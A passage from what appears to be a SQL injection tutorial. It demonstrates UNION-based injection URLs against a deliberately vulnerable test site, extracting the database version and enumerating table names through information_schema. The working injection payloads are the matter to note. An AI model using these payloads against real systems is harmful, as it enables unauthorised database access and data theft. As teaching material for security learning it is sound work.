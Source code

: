 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql11.jpg)
<br>
After this point of time, all the helper functions are available for you.You can run the following to avoid first part of the
sql query to only see your own query by selecting something non existent from the database.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=8217582175821%20UNION%20SELECT%201,version(),3,4,5,6,7,8,9,10,11>
### Extracting the table names
First thing to do is to gather all the table names exists in the database.For MySQl it is `information_schema` which provides
access to database metadata.We are going to use methods of that information_schema to enumerate the database. 
Even though helper function's syntax or names will vary database to database, there is always a functionality doing
the same thing with for different database.
<br>
```sql
MariaDB [testdb]> SELECT table_name FROM information_schema.tables WHERE table_schema=database();
+------------+
| table_name |
+------------+
| users      |
+------------+
```
With `tables` method belongs to `information_schema`, we can query the table names.<br>
Now lets imply this method to the acuart database.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema=database()>